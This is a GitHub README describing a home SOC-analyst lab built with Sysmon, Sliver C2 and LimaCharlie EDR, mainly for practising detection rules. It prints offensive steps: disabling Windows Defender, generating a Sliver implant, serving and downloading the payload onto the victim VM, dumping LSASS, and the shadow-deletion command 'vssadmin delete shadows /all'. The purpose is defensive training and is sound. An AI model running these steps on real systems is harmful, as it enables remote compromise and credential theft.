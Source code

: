 # SOC-Analyst-Lab

## Objective

To simulate real-world SOC (Security Operations Center) scenarios and gain hands-on experience in detecting and responding to cyber threats.. The primary focus was to ingest and analyze logs within a Security Information and Event Management (SIEM) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Skills Learned

- Setting up a virtual SOC environment.
- Configuring EDR agents and logging tools.
- Simulating adversarial attacks (e.g., dumping LSASS).
- Crafting detection and response rules.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Automating malware detection and blocking ransomware activity.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used
- VMware Workstation Pro: For setting up Linux and Windows virtual machines.
- Sysmon: Provides detailed Windows telemetry.
- Sliver C2: Command and Control server for testing adversarial scenarios.
- LimaCharlie EDR: Endpoint Detection and Response for telemetry and automated rules.

## Steps
After diving into a few blog posts on how to become a SOC analyst, I set up my own virtual lab, following the steps from Eric Capuano’s guide. It was quite the process but worth the effort for hands-on experience in cybersecurity.

# **1. Setting up the Lab Environment:**
I started by setting up two virtual machines (VMs), one for Windows and another for Linux, using VMware. This is where I spent time configuring both, including setting static IPs and installing Sysmon on the Windows VM for granular logging (Sysmon really helps in detecting subtle activity). I disabled Windows Defender through the Group Policy Editor and registry tweaks to make sure nothing interfered with my attack scenarios. 

a. Download Sysmon with the following command.
- [Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip]

b. Unzip Sysmon.zip
- [Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon]

c. Download SwiftOnSecurity’s Sysmon config.
- [Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml]

d. Install Sysmon with Swift’s config.
- [C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml]

# **2. Command and Control (C2) Setup:**
Next, I set up a Sliver Command and Control (C2) server on the Linux VM. Once it was running, I generated a C2 payload and executed it on the Windows VM via PowerShell. It was exciting when the session checked back into the Sliver server! At this point, I could execute commands on the target machine, including whoami and netstat to gather information about the compromised system.

e. Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.
- [# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
#Make it executable
chmod +x /usr/local/bin/sliver-server
#install mingw-w64 for additional capabilities
apt install -y mingw-w64]

f. Launch Sliver server
- [sliver-server]

g. Generate our first C2 session payload
- [generate --http [Linux_VM_IP] --save /opt/sliver]

h. Confirm the new implant configuration
- [implants]

**To easily download the C2 payload from the Linux VM to the Windows VM, let’s use a little python trick that spins up a temporary web server.**
- [python3 -m http.server 80]

i. Now run the following command to download your C2 payload from the Linux VM to the Windows VM, swapping your own Linux VM IP [Linux_VM_IP] and the name of the payload we generated in Sliver [payload_name] a few steps prior.
- [IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe]

# **3. Simulating Attacks:**
I took it a step further by simulating adversarial activities like dumping the lsass.exe process, a common technique for stealing credentials. Using LimaCharlie’s EDR platform, I could see the related events in real-time and learned how to craft custom detection rules based on sensitive processes like lsass.exe. I even created a rule to trigger alerts for these actions and to block them in the future.

# **4. Detection and Response Automation:**
Once the basics were working, I moved on to automating detection using YARA rules and crafted response actions in LimaCharlie. For example, I set up a rule to scan newly downloaded .exe files and automatically alert or quarantine them if flagged. I also played with blocking shadow copy deletion commands (used by ransomware) by building detection logic that terminates the offending process.

# **5. Reflection:**
Setting this lab up was not only fun but really highlighted the workflow a SOC analyst would go through. The importance of detection tuning, understanding baseline behavior, and working with EDR platforms became clear. Now, I feel more confident exploring adversary techniques and crafting detections.
After learning to detect attacks, I took things a step further by creating rules to block ransomware-like activities, such as the deletion of volume shadow copies. I built a custom Detection and Response (D&R) rule using LimaCharlie to identify and terminate the parent process whenever a command like vssadmin delete shadows /all is executed. By rerunning the attack and testing the rule, I was able to successfully block the process, further enhancing the defenses of my virtual SOC environment.

For anyone interested in SOC work, this series of blog posts is a great place to start!

If you're curious, you can follow the same steps through these blog links:

- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part">Part 1 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-ea2">Part 2 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-77e">Part 3 </a>
